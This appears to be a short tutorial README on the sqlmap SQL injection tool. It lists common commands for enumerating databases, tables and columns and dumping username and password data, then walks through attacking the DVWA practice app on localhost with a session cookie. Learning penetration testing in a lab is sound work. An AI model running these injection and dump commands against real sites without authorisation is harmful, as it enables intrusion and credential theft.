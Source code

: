 x# sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1  

sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3  

sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie  

sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump  

//dump the data of the column "username" and "password"  


see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   

```
it doesn't work and the dvwa jump to the homepage, so we need to add the coockie  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"  
cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" 
```
sqlmap shows that the url is injectable and after several tests we use the command below to get the username and password.  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   
--cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7"--batch -D dvwa -T users -C user,password --dump
``







